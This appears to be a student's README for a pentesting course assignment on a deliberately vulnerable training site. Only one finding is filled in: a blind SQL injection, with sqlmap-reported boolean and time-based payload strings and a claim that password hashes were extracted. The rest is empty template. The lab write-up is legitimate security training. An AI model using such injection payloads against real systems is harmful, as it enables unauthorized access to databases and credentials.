 # Project 8 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: SQL Injection

Description: In the request https://104.198.208.81/blue/public/salesperson.php?id=1 the ID parameter is vulnerable to a time-based blind SQL injection. I used SQLMap to identify this vulnerability. Here's what SQLMap found:
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=9' AND 5478=5478 AND 'ldnf'='ldnf

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=9' AND (SELECT 3260 FROM (SELECT(SLEEP(5)))Evaj) AND 'gOzU'='gOzU
---
```
Time based injection is slow, but it allows me access to the data in the database. For example, here are some of the users and their salted and hashed passwords:


<img src="sqlmap.png">
<img src="sqli.gif">

Vulnerability #2: __________________

Description:

<img src="blue-vuln2.gif">

## Green

Vulnerability #1: __________________

Description:

<img src="green-vuln1.gif">

Vulnerability #2: __________________

Description:

<img src="green-vuln2.gif">


## Red

Vulnerability #1: __________________

Description:

<img src="red-vuln1.gif">

Vulnerability #2: __________________

Description:

<img src="red-vuln2.gif">


## Notes

Describe any challenges encountered while doing the work
